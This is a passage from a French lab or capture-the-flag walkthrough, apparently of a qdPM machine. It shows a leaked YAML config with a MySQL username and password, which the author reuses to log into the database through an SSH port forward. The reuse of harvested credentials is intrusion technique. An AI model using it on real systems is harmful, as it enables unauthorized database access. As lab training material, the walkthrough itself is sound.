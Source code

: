 Effectivement on trouve bien un YAML avec un password (seule la chaîne entre double quotes est à prendre en compte) :  

```plain
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true
```

Step in
-------

Je suis bien évidemment tenté d'accéder au mysql mais j'obtiens une erreur :  

```plain
$ mysql -u qdpmadmin -h 192.168.2.9 -p qdpm
Enter password: 
ERROR 1045 (28000): Plugin caching_sha2_password could not be loaded: /usr/lib64/mysql/plugin/caching_sha2_password.so: cannot open shared object file: No such file or directory
```

Ce n'est pas mieux sur le port mysqlx :  

```plain
$ mysql -u qdpmadmin -h 192.168.2.9 -P 33060 -p qdpm
Enter password: 
ERROR:
```

C'est peut être relatif à ma version de MySQL : *mysql Ver 15.1 Distrib 10.6.5-MariaDB, for Linux (x86\_64) using EditLine wrapper*  

Vu que j'ai un mysql plus *"standard"* sur une autre machine je switch dessus et je forward le port :  

```bash
$ ssh -L 4444:192.168.2.9:3306 devloop@192.168.1.47
```

Cette fois ça fonctionne :  

```plain
$ mysql -u qdpmadmin -h 127.0.0.1 -P 4444  -p qdpm
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A 

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 96
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its 
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement. 

mysql> show databases;
+--------------------+ 
| Database           |
+--------------------+
```